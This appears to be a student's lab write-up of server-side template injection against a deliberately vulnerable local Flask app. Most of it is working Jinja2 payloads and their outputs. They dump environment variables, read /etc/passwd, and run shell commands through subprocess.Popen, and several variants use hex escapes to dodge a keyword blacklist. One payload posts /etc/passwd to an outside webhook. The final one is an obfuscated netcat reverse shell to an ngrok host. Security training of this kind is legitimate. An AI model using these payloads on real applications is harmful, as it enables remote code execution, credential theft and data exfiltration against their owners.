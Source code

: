 Q: Give unique ssti payloads for the given cases while following these conditions:
 Re-write everything above to work against this blacklist = [    "import",    "open",    "module",    "write",    "load",    "read",    "eval",    "exec",    "system",    "os",    "_",    #",    ',    "]

```
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route("/")
def home():
    if request.args.get("c"):
        return render_template_string(request.args.get("c"))
    else:
        return "Hello, send someting inside the param 'c'!"


if __name__ == "__main__":
    app.run()
```

- ## Return the index of urllib in subclasses()
  
```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__base__}}``` : ```<class 'object'>```

```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` : returns all the subclasses for that object<br>

Now to get the index at which the urllib is present, we can copy the list and iterate through it or to directly run it in the browser we can use a for loop:
```
{% set subclasses = ().__class__.__base__.__subclasses__() %}
{% for i in range(subclasses|length) %}
  {% if 'urllib' in subclasses[i].__module__ %}
    {{ i }}
  {% endif %}
{% endfor %}
```
If this is our payload, then the for loop iterates through the subclasses list and prints the index wherever it finds urllib mentioned
url encoding the block we get the payload as: 
PAYLOAD:
```
%7B%25%20set%20subclasses%20%3D%20().__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20for%20i%20in%20range(subclasses%7Clength)%20%25%7D%0A%20%20%7B%25%20if%20'urllib'%20in%20subclasses%5Bi%5D.__module__%20%25%7D%0A%20%20%20%20%7B%7B%20i%20%7D%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

![image](https://github.com/poorvi1910/Web/assets/146640913/433ab890-0a54-4476-a97c-725822933382)

FOR BLACKLIST: 
```
http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f%22))()%20}}
```

- ##  Get name of current python flask script


- ## Get all the current envvars
```http://127.0.0.1:5000/?c={{config}}```: ```<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None,```
```http://127.0.0.1:5000/?c={{config.__class__}}``` : ```<class 'flask.config.Config'>```
```http://127.0.0.1:5000/?c={{config.__class__.from_envvar}}```: ```<function Config.from_envvar at 0x7facac89bf60>```
```http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22]}}```: ```{'__name__': 'flask.config', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac8a3190>, ...```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22][%22__builtins__%22][%22__import__%22](%22os%22).environ}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/de0b5534-d6a5-41aa-9c42-c4d4493f7a61)

BLACKLIST:
```
http://127.0.0.1:5000/?c={{config.from_envvar[%27\x5f\x5fglobals\x5f\x5f%27][%27\x5f\x5fbuiltins\x5f\x5f%27][%27\x5f\x5fimport\x5f\x5f%27](%27os%27).environ}}
```

- ##  Read a local file

```http://127.0.0.1:5000/?c={{%20request.__class__}}``` : ```<class 'flask.wrappers.Request'>```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data}}``` : ```<function Request._load_form_data at 0x7facac724680>```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__}}``` : ```{'__name__': 'flask.wrappers', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac720f90>...```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__}}``` : ```{'__name__': 'builtins', '__doc__': "Built-in functions, types, exceptions, and other objects.\n\nThis module provides direct access to all 'built-in'\nidentifiers of Python...```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/dba77ed3-b558-41bc-8740-12d3d668d256)


- ##  Run a command

```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568]}}``` : ```<class 'subprocess.Popen'>``` : selecting the popen subprocess

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}``` :  running cat command on a python file to read it

PAYLOAD:
```
http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/a516db8b-213f-4e58-8650-585cac3a95de)

- ##  Send the contents of etc pass to  awebhook

Sending post request: ```http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']```

To read file : ```request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()```

Final result : ```<Response [200]>```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']('https://webhook-test.com/862d0fdb235354934d78409cb297c53c', data={'file': request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()}) }}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/65bde4dc-928b-423c-9fc8-48ca1d5ecbe1)



- ##  Create a reverse shell, save your work and run the command yes on the rev shell

tried 
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x38\x2e\x74\x63\x70\x2e\x6e\x67\x72\x6f\x6b\x2e\x69\x6f\x20\x31\x35\x37\x32\x33\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
did not get an output on terminal though
